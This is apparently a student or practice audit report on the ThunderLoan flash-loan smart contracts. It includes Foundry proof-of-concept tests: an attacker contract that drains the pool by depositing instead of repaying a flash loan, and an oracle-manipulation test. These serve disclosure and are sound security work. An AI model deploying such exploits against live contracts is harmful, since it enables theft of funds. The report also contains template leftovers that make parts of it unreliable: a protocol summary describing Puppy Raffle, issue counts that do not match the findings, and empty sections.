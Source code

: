 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./guts.jpeg" alt="Logo">
    <div>
    <h1>Protocol Audit Report: ThunderLoan (An Aave Implement)</h1>
    <h3>Prepared by: EggsyOnCode</h3>
    </div>
</div>

</body>
</html>
<!-- Your report starts here! -->

Prepared by: [EggysOnCode](https://github.com/eggsyoncode)
Lead Auditors:

- EggsyOnCode# Table of contents

<details>

<summary>See table</summary>

- [Thunder Loan Audit Report](#thunder-loan-audit-report)
- [Table of contents](#table-of-contents)
- [About YOUR_NAME_HERE](#about-your_name_here)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`](#h-1-mixing-up-variable-location-causes-storage-collisions-in-thunderloans_flashloanfee-and-thunderloans_currentlyflashloaning)
    - [\[H-2\] Unnecessary `updateExchangeRate` in `deposit` function incorrectly updates `exchangeRate` preventing withdraws and unfairly changing reward distribution](#h-2-unnecessary-updateexchangerate-in-deposit-function-incorrectly-updates-exchangerate-preventing-withdraws-and-unfairly-changing-reward-distribution)
    - [\[H-3\] By calling a flashloan and then `ThunderLoan::deposit` instead of `ThunderLoan::repay` users can steal all funds from the protocol](#h-3-by-calling-a-flashloan-and-then-thunderloandeposit-instead-of-thunderloanrepay-users-can-steal-all-funds-from-the-protocol)
    - [\[H-4\] getPriceOfOnePoolTokenInWeth uses the TSwap price which doesn't account for decimals, also fee precision is 18 decimals](#h-4-getpriceofonepooltokeninweth-uses-the-tswap-price-which-doesnt-account-for-decimals-also-fee-precision-is-18-decimals)
  - [Medium](#medium)
    - [\[M-1\] Centralization risk for trusted owners](#m-1-centralization-risk-for-trusted-owners)
      - [Impact:](#impact)
      - [Contralized owners can brick redemptions by disapproving of a specific token](#contralized-owners-can-brick-redemptions-by-disapproving-of-a-specific-token)
    - [\[M-2\] Using TSwap as price oracle leads to price and oracle manipulation attacks](#m-2-using-tswap-as-price-oracle-leads-to-price-and-oracle-manipulation-attacks)
    - [\[M-4\] Fee on transfer, rebase, etc](#m-4-fee-on-transfer-rebase-etc)
  - [Low](#low)
    - [\[L-1\] Empty Function Body - Consider commenting why](#l-1-empty-function-body---consider-commenting-why)
    - [\[L-2\] Initializers could be front-run](#l-2-initializers-could-be-front-run)
    - [\[L-3\] Missing critial event emissions](#l-3-missing-critial-event-emissions)
  - [Informational](#informational)
    - [\[I-1\] Poor Test Coverage](#i-1-poor-test-coverage)
    - [\[I-2\] Not using `__gap[50]` for future storage collision mitigation](#i-2-not-using-__gap50-for-future-storage-collision-mitigation)
    - [\[I-3\] Different decimals may cause confusion. ie: AssetToken has 18, but asset has 6](#i-3-different-decimals-may-cause-confusion-ie-assettoken-has-18-but-asset-has-6)
    - [\[I-4\] Doesn't follow https://eips.ethereum.org/EIPS/eip-3156](#i-4-doesnt-follow-httpseipsethereumorgeipseip-3156)
  - [Gas](#gas) - [\[GAS-1\] Using bools for storage incurs overhead](#gas-1-using-bools-for-storage-incurs-overhead) - [\[GAS-2\] Using `private` rather than `public` for constants, saves gas](#gas-2-using-private-rather-than-public-for-constants-saves-gas) - [\[GAS-3\] Unnecessary SLOAD when logging new exchange rate](#gas-3-unnecessary-sload-when-logging-new-exchange-rate)
  </details>
  </br>

# About YOUR_NAME_HERE

<!-- Tell people about you! -->

# Disclaimer

The YOUR_NAME_HERE team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

# Audit Details

**The findings described in this document correspond the following commit hash:**

```
026da6e73fde0dd0a650d623d0411547e3188909
```

## Scope

```
#-- interfaces
|   #-- IFlashLoanReceiver.sol
|   #-- IPoolFactory.sol
|   #-- ITSwapPool.sol
|   #-- IThunderLoan.sol
#-- protocol
|   #-- AssetToken.sol
|   #-- OracleUpgradeable.sol
|   #-- ThunderLoan.sol
#-- upgradedProtocol
    #-- ThunderLoanUpgraded.sol
```

# Protocol Summary

Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

## Roles

- Owner: The owner of the protocol who has the power to upgrade the implementation.
- Liquidity Provider: A user who deposits assets into the protocol to earn interest.
- User: A user who takes out flash loans from the protocol.

# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 2                      |
| Medium   | 2                      |
| Low      | 3                      |
| Info     | 1                      |
| Gas      | 2                      |
| Total    | 10                     |

# Findings

## High

### [H-1] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`

**Description:** `ThunderLoan.sol` has two variables in the following order:

```javascript
    uint256 private s_feePrecision;
    uint256 private s_flashLoanFee; // 0.3% ETH fee
```

However, the expected upgraded contract `ThunderLoanUpgraded.sol` has them in a different order.

```javascript
    uint256 private s_flashLoanFee; // 0.3% ETH fee
    uint256 public constant FEE_PRECISION = 1e18;
```

Due to how Solidity storage works, after the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the positions of storage variables when working with upgradeable contracts.

**Impact:** After upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means that users who take out flash loans right after an upgrade will be charged the wrong fee. Additionally the `s_currentlyFlashLoaning` mapping will start on the wrong storage slot.

**Proof of Code:**

<details>
<summary>Code</summary>
Add the following code to the `ThunderLoanTest.t.sol` file.

```javascript
// You'll need to import `ThunderLoanUpgraded` as well

    function testStorageCollision() public setAllowedToken hasDeposits {
        uint256 feeBefore = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        vm.stopPrank();

        uint256 feeAfter = thunderLoan.getFee();
        assertNotEq(feeBefore, feeAfter);
    }

```

</details>

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`

**Recommended Mitigation:** Do not switch the positions of the storage variables on upgrade, and leave a blank if you're going to replace a storage variable with a constant. In `ThunderLoanUpgraded.sol`:

```diff
-    uint256 private s_flashLoanFee; // 0.3% ETH fee
-    uint256 public constant FEE_PRECISION = 1e18;
+    uint256 private s_blank;
+    uint256 private s_flashLoanFee;
+    uint256 public constant FEE_PRECISION = 1e18;
```

### [H-2] Unnecessary `updateExchangeRate` in `deposit` function incorrectly updates `exchangeRate` preventing withdraws and unfairly changing reward distribution

**Description:**

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        uint256 calculatedFee = getCalculatedFee(token, amount);
        assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:**

**Proof of Concept:**
```javascript

    function testRedeemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        assertEq(mockFlashLoanReceiver.getBalanceDuring(), amountToBorrow + AMOUNT);
        assertEq(mockFlashLoanReceiver.getBalanceAfter(), AMOUNT - calculatedFee);

        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);
        assertEq(tokenA.balanceOf(address(asset)), DEPOSIT_AMOUNT);
        uint256 amountToRedeem = AMOUNT * 10;
        uint256 exchangeRate = asset.getExchangeRate();
        uint256 amountToRedeemInUnderlying = amountToRedeem * exchangeRate / asset.EXCHANGE_RATE_PRECISION();
        emit log_uint(tokenA.balanceOf(liquidityProvider));
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
        vm.stopPrank();
        emit log_uint(tokenA.balanceOf(liquidityProvider));
        emit log_uint(amountToRedeemInUnderlying);

        assertEq(tokenA.balanceOf(liquidityProvider), 100_030_000_000_000_000_000);

        // 100030000000000000000 [1e20]
        // 1000300000000000000000
        // 1000000000000000000000
        // assertEq(tokenA.balanceOf(address(asset)), DEPOSIT_AMOUNT - amountToRedeemInUnderlying);
    }
```
**Recommended Mitigation:**

### [H-3] By calling a flashloan and then `ThunderLoan::deposit` instead of `ThunderLoan::repay` users can steal all funds from the protocol

**Proof Of Concept**:

```js

    ///@notice during a flashLoan, the receiver has to return the funds via repay; but the logic of the
    /// contract is such that it only checks the balance of teh contract after the loan is returned
    /// and teh balance of teh cotnract can be manipulated via depositing those fudns (the loan itself)
    /// and tehn redeeming the loan; thereby stealing the funds
    function testDepositOverRepay() public setAllowedToken hasDeposits {
        uint256 amountToB = 10 ether;

        DepositOverRepay dor = new DepositOverRepay(thunderLoan);
        vm.startPrank(address(dor));
        tokenA.mint(address(dor), 0.03 ether);
        thunderLoan.flashloan(address(dor), tokenA, amountToB, "");
        dor.redeem(address(tokenA), type(uint256).max);

        assert(tokenA.balanceOf(address(dor)) > amountToB + dor.s_fee());
    }

    contract DepositOverRepay is IFlashLoanReceiver {
        ThunderLoan public thunderLoan;
        IERC20 public s_token;
        uint256 public s_fee;

        constructor(ThunderLoan _thunderLoan) {
            thunderLoan = _thunderLoan;
        }

        function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address, /*initiator*/
            bytes calldata /*params*/
        )
            external
            override
            returns (bool)
        {
            s_token = IERC20(token);
            s_fee = fee;
            s_token.approve(address(thunderLoan), type(uint256).max);
            thunderLoan.deposit(IERC20(token), amount + fee);
            return true;
        }

        function redeem(address token, uint256 amount) public {
            thunderLoan.redeem(IERC20(token), amount);
        }
    }

```

### [H-4] getPriceOfOnePoolTokenInWeth uses the TSwap price which doesn't account for decimals, also fee precision is 18 decimals

## Medium

### [M-1] Centralization risk for trusted owners

#### Impact:

Contracts have owners with privileged rights to perform admin tasks and need to be trusted to not perform malicious updates or drain funds.

_Instances (2)_:

```solidity
File: src/protocol/ThunderLoan.sol

223:     function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {

261:     function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }
```

#### Contralized owners can brick redemptions by disapproving of a specific token

### [M-2] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees.

**Impact:** Liquidity providers will drastically reduced fees for providing liquidity.

**Proof of Concept:**

The following all happens in 1 transaction.

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price.
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`.
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper.

```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

    3. The user then repays the first flash loan, and then repays the second flash loan.

```javascript

    function testOracleManipulation() public {
        address tester = address(123);
        // 1. Setup the contracts
        //tokens
        ERC20Mock tokenA = new ERC20Mock();
        ERC20Mock weth = new ERC20Mock();
        ThunderLoan thunderLoan = new ThunderLoan();
        ERC1967Proxy proxy = new ERC1967Proxy(address(thunderLoan), "");
        thunderLoan = ThunderLoan(address(proxy));
        BuffMockPoolFactory poolFactory = new BuffMockPoolFactory(address(weth));
        BuffMockTSwap tSwap = BuffMockTSwap((poolFactory.createPool(address(tokenA))));
        thunderLoan.initialize(address(poolFactory));
        AssetToken aToken = thunderLoan.setAllowedToken((tokenA), true);
        console.log("aToken", address(aToken));

        // 2. Set the oracle
        //fund a TESTER
        uint256 amount = 10_000 ether;
        tokenA.mint(tester, amount);
        weth.mint(tester, amount);

        uint256 wethToDep = 100 ether;
        uint256 tokenToDepThunder = 1000 ether;
        uint256 tokenToDep = 100 ether;
        // 1 WETH = 1 TOKEN

        vm.startPrank(tester);
        tokenA.approve(address(tSwap), type(uint256).max);
        weth.approve(address(tSwap), type(uint256).max);
        tokenA.approve(address(thunderLoan), type(uint256).max);
        weth.approve(address(thunderLoan), type(uint256).max);

        tSwap.deposit(wethToDep, 100 ether, tokenToDep, block.timestamp);
        thunderLoan.deposit(tokenA, tokenToDepThunder);
        vm.stopPrank();

        // 3. Manipulate the oracle
        //before before attack
        // take a flash loan
        TestLoanReceiever testLoanReceiever =
            new TestLoanReceiever(thunderLoan, tSwap, address(tokenA), address(weth), address(aToken));
        tokenA.mint(address(testLoanReceiever), 7000 ether);

        uint256 feeBefore = testLoanReceiever.getBeforeFees();

        vm.startPrank(address(testLoanReceiever));
        IERC20(tokenA).approve(address(tSwap), type(uint256).max);
        thunderLoan.flashloan(address(testLoanReceiever), tokenA, 50 ether, "");
        vm.stopPrank();

        uint256 attackFee = testLoanReceiever.fee1() + testLoanReceiever.fee2();
        console.log("atackFee", attackFee);

        assert(attackFee < feeBefore);
    }

```

**Recommended Mitigation:** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.

### [M-4] Fee on transfer, rebase, etc

## Low

### [L-1] Empty Function Body - Consider commenting why

_Instances (1)_:

```solidity
File: src/protocol/ThunderLoan.sol

261:     function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }

```

### [L-2] Initializers could be front-run

Initializers could be front-run, allowing an attacker to either set their own values, take ownership of the contract, and in the best case forcing a re-deployment

_Instances (6)_:

```solidity
File: src/protocol/OracleUpgradeable.sol

11:     function __Oracle_init(address poolFactoryAddress) internal onlyInitializing {

```

```solidity
File: src/protocol/ThunderLoan.sol

138:     function initialize(address tswapAddress) external initializer {

138:     function initialize(address tswapAddress) external initializer {

139:         __Ownable_init();

140:         __UUPSUpgradeable_init();

141:         __Oracle_init(tswapAddress);

```

### [L-3] Missing critial event emissions

**Description:** When the `ThunderLoan::s_flashLoanFee` is updated, there is no event emitted.

**Recommended Mitigation:** Emit an event when the `ThunderLoan::s_flashLoanFee` is updated.

```diff
+    event FlashLoanFeeUpdated(uint256 newFee);
.
.
.
    function updateFlashLoanFee(uint256 newFee) external onlyOwner {
        if (newFee > s_feePrecision) {
            revert ThunderLoan__BadNewFee();
        }
        s_flashLoanFee = newFee;
+       emit FlashLoanFeeUpdated(newFee);
    }
```

## Informational

### [I-1] Poor Test Coverage

```
Running tests...
| File                               | % Lines        | % Statements   | % Branches    | % Funcs        |
| ---------------------------------- | -------------- | -------------- | ------------- | -------------- |
| src/protocol/AssetToken.sol        | 70.00% (7/10)  | 76.92% (10/13) | 50.00% (1/2)  | 66.67% (4/6)   |
| src/protocol/OracleUpgradeable.sol | 100.00% (6/6)  | 100.00% (9/9)  | 100.00% (0/0) | 80.00% (4/5)   |
| src/protocol/ThunderLoan.sol       | 64.52% (40/62) | 68.35% (54/79) | 37.50% (6/16) | 71.43% (10/14) |
```

### [I-2] Not using `__gap[50]` for future storage collision mitigation

### [I-3] Different decimals may cause confusion. ie: AssetToken has 18, but asset has 6

### [I-4] Doesn't follow https://eips.ethereum.org/EIPS/eip-3156

**Recommended Mitigation:** Aim to get test coverage up to over 90% for all files.

## Gas

### [GAS-1] Using bools for storage incurs overhead

Use `uint256(1)` and `uint256(2)` for true/false to avoid a Gwarmaccess (100 gas), and to avoid Gsset (20000 gas) when changing from ‘false’ to ‘true’, after having been ‘true’ in the past. See [source](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/58f635312aa21f947cae5f8578638a85aa2519f5/contracts/security/ReentrancyGuard.sol#L23-L27).

_Instances (1)_:

```solidity
File: src/protocol/ThunderLoan.sol

98:     mapping(IERC20 token => bool currentlyFlashLoaning) private s_currentlyFlashLoaning;

```

### [GAS-2] Using `private` rather than `public` for constants, saves gas

If needed, the values can be read from the verified contract source code, or if there are multiple values there can be a single getter function that [returns a tuple](https://github.com/code-423n4/2022-08-frax/blob/90f55a9ce4e25bceed3a74290b854341d8de6afa/src/contracts/FraxlendPair.sol#L156-L178) of the values of all currently-public constants. Saves **3406-3606 gas** in deployment gas due to the compiler not having to create non-payable getter functions for deployment calldata, not having to store the bytes of the value outside of where it's used, and not adding another entry to the method ID table

_Instances (3)_:

```solidity
File: src/protocol/AssetToken.sol

25:     uint256 public constant EXCHANGE_RATE_PRECISION = 1e18;

```

```solidity
File: src/protocol/ThunderLoan.sol

95:     uint256 public constant FLASH_LOAN_FEE = 3e15; // 0.3% ETH fee

96:     uint256 public constant FEE_PRECISION = 1e18;

```

### [GAS-3] Unnecessary SLOAD when logging new exchange rate

In `AssetToken::updateExchangeRate`, after writing the `newExchangeRate` to storage, the function reads the value from storage again to log it in the `ExchangeRateUpdated` event.

To avoid the unnecessary SLOAD, you can log the value of `newExchangeRate`.

```diff
  s_exchangeRate = newExchangeRate;
- emit ExchangeRateUpdated(s_exchangeRate);
+ emit ExchangeRateUpdated(newExchangeRate);
```
